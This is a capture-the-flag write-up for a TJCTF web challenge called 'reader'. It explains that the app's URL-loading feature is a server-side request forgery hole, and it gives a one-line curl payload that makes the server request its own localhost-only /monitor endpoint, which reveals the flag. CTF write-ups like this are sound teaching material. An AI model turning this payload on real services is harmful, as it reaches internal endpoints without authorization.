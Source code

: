 For this challenge, we're given the source code.

![](./img/reader.png)

Visiting the website, it takes in a URL and loads it in the page, looks like a basic SSRF.

## Source code

From the Dockerfile, we know that the app is running locally on port 5000.
```
FROM python:3.8.5-slim-buster

RUN pip install flask gunicorn requests lxml

COPY . /app

WORKDIR /app

EXPOSE 5000

CMD ["gunicorn", "-b", "0.0.0.0:5000", "app:app", "-w", "4"]

```

`app.py`
```
@app.route("/monitor")
def monitor():
    if request.remote_addr in ("localhost", "127.0.0.1"):
        return render_template(
            "admin.html", message=flag, errors="".join(log) or "No recent errors"
        )
    else:
        return render_template("admin.html", message="Unauthorized access", errors="")


```
To retrieve the flag, we need to make a request to `/monitor` where our address originated from localhost.
We will use the SSRF to retrieve it.

## Solution

```
curl -s 'https://reader.tjc.tf/?site=http://127.0.0.1:5000/monitor'
```

Flag: `tjctf{maybe_dont_make_random_server_side_requests_dd695b62}`